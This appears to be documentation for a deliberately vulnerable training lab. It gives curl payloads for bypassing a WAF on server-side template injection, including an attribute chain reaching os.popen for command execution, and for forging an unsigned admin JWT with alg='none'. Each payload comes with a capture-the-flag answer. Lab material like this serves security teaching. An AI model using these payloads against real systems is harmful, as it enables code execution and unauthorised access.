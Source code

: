 
## Intermediate Lab Bypass Techniques

### Overview
All intermediate labs include at least one bypass method designed for intermediate-level complexity. These bypass techniques simulate real-world scenarios where simple exploitation is blocked by security controls.

### 1. Server-Side Template Injection (SSTI) Bypass Methods

#### Bypass Method 1: Alternate Delimiter Bypass
**Vulnerability:** WAF blocks standard `{{...}}` delimiters  
**Bypass:** Use alternate `{%...%}` delimiters

**Exploitation:**
```bash
# Standard payload (may be blocked)
curl "http://localhost:5000/api/vuln/ssti?template={{7*7}}"

# Bypass using alternate delimiters
curl "http://localhost:5000/api/vuln/ssti?template={%print(7*7)%}"
# Flag: {SSTI_WAF_BYPASS_ALTERNATE_DELIMITERS}
```

#### Bypass Method 2: Attribute Chain Bypass
**Vulnerability:** Filters block direct RCE keywords  
**Bypass:** Use attribute chaining to access dangerous functions

**Exploitation:**
```bash
# Use Python attribute chaining
curl "http://localhost:5000/api/vuln/ssti?template={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
# Flag: {SSTI_FILTER_BYPASS_ATTRIBUTE_CHAIN}
```

### 2. JWT Manipulation Bypass Method

#### Bypass Method: "none" Algorithm Bypass
**Vulnerability:** Server accepts unsigned JWTs with alg="none"  
**Bypass:** Remove signature and set algorithm to "none"

**Exploitation:**
```bash
# Original JWT header (base64): {"alg":"HS256","typ":"JWT"}
# Change to: {"alg":"none","typ":"JWT"}
# Base64 encode: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

# Original payload (base64): {"sub":"1234567890","name":"Guest","admin":false}
# Change to: {"sub":"1234567890","name":"Guest","admin":true}
# Base64 encode: eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6Ikd1ZXN0IiwiYWRtaW4iOnRydWV9

# Construct token without signature (note the trailing dot)
curl "http://localhost:5000/api/vuln/jwt-manipulation?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6Ikd1ZXN0IiwiYWRtaW4iOnRydWV9."
# Flag: {JWT_NONE_ALGORITHM_BYPASS}
```
